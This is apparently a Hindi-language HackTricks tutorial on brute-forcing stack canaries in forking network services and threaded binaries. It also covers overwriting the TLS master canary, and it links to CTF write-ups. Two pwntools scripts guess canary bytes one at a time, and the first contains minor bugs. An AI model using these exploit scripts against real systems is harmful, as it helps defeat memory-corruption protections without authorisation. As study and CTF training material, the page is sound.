 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) **और हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) **github रेपो में पीआर जमा करके।

</details>
{% endhint %}

**यदि आपके सामने एक कैनरी द्वारा संरक्षित बाइनरी है और पीआईई (पोजीशन इंडिपेंडेंट एक्जीक्यूटेबल) है, तो आपको उन्हें दरकिनार करने का एक तरीका खोजने की आवश्यकता हो सकती है।**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पता लगा सकता है कि एक बाइनरी को कैनरी द्वारा संरक्षित किया गया है अगर यह स्थाई रूप से कंपाइल किया गया था और यह फ़ंक्शन को पहचानने की क्षमता नहीं है।\
हालांकि, आप इसे मैन्युअल रूप से नोट कर सकते हैं अगर आपको लगता है कि किसी मान को फ़ंक्शन कॉल करने के शुरू में स्टैक में सहेजा गया है और इस मान की जांच की गई है पहले बाहर निकलने से पहले।
{% endhint %}

## ब्रूट फ़ोर्स कैनरी

एक साधारण कैनरी को दरकिनार करने का सबसे अच्छा तरीका यह है अगर बाइनरी एक कार्यक्रम है **हर बार जब आप इसके साथ एक नया कनेक्शन स्थापित करते हैं तो चाइल्ड प्रक्रियाएँ फॉर्क करता है** (नेटवर्क सेवा), क्योंकि हर बार जब आप इससे कनेक्ट करते हैं **वही कैनरी उपयोग की जाएगी**।

फिर, कैनरी को दरकिनार करने का सबसे अच्छा तरीका यह है केवल **चार द्वारा ब्रूट-फ़ोर्स करना**, और आप यह देख सकते हैं कि क्या अनुमानित कैनरी बाइट सही था या गलत बाइट बस **यह जांच करके** कि क्या एक **प्रतिक्रिया** सर्वर द्वारा वापस भेजी गई है (दूसरे स्थिति में एक **प्रयास/अपेक्षा** का उपयोग किया जा सकता है):

### उदाहरण 1

यह उदाहरण 64 बिट के लिए लागू किया गया है लेकिन आसानी से 32 बिट के लिए लागू किया जा सकता है।
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### उदाहरण 2

यह 32 बिट के लिए कार्यान्वित किया गया है, लेकिन इसे आसानी से 64 बिट के लिए बदला जा सकता है।\
इस उदाहरण के लिए **प्रोग्राम से पहले एक बाइट की आवश्यकता है जो इनपुट का आकार और पेलोड को दर्शाती है**।
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## धागे

प्रक्रिया के वे धागे भी **एक ही कैनरी टोकन को साझा** करेंगे, इसलिए यदि बाइनरी हर बार एक हमला होने पर एक नया धागा उत्पन्न करता है तो कैनरी को **ब्रूट-फोर्स** किया जा सकता है।

इसके अतिरिक्त, एक धागायुक्त फ़ंक्शन में एक बफ़र **ओवरफ़्लो** जो कैनरी से सुरक्षित है, का उपयोग करके **TLS में स्टोर किए गए मास्टर कैनरी को संशोधित** किया जा सकता है। यह इसलिए है क्योंकि, एक धागा के स्टैक में **बफ़र ओवरफ़्लो** के माध्यम से TLS स्टोर किया जाता है (और इसलिए, कैनरी) के मेमोरी स्थिति तक पहुंचना संभव हो सकता है।\
इस परिणामस्वरूप, संरोधन अनर्थक है क्योंकि जांच का उपयोग दो कैनरी के साथ किया जाता है जो समान हैं (हालांकि संशोधित)।\
यह हमला लिखाव में किया जाता है: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

[https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015) के प्रस्तुति को भी देखें जिसमें उल्लेख किया गया है कि सामान्यत: **TLS** को **`mmap`** द्वारा स्टोर किया जाता है और जब एक **धागे** का **स्टैक** बनाया जाता है तो यह भी `mmap` द्वारा उत्पन्न किया जाता है जिससे पिछले लेख में दिखाया गया ओवरफ़्लो संभव हो सकता है।

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 बिट, कोई PIE नहीं, nx, BF कैनरी, किसी मेमोरी में `execve` को कॉल करने के लिए ROP लिखें और वहाँ जाएं।
